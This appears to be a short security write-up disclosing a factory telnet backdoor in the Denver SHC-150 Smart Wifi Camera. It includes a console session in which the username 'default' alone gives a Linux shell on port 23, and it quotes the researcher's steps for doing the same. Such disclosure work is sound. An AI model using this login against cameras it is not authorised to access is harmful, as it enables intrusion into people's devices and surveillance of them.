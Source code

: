 So, the telnet service, as Ivan noticed, has hardcoded credentials and after brute-forcing them he found out that the only thing which is needed to login is username - `default`.

```console
enty8080@Ivans-Air ~ % telnet 192.168.2.118 23
Trying 192.168.2.118...
Connected to pc192-168-2-118.
Escape character is '^]'.

goke login: default
$ ls /
bin      home     linuxrc  opt      run      tmp
dev      init     media    proc     sbin     usr
etc      lib      mnt      root     sys      var
$ pwd
/home/default
$ exit
Connection closed by foreign host.
enty8080@Ivans-Air ~ %
```

As you can see, successfull login leads to the shell of the camera. Also he found out that Denver SHC-150 Smart Wifi Camera runs on `armle` CPU and has `r/w` filesystem.

> So, backdoor is a factory telnet credential - `default`.
> Just open the telnet connection with the camera on port 23 and enter `default`.
> After this, you'll get a Linux shell.
> Backdoor allows an attacker to execute commands on OS lever through telnet.
>
> -- <cite>Ivan Nikolskiy</cite>

Ivan has already posted this research [here](https://www.exploit-db.com/exploits/50160).
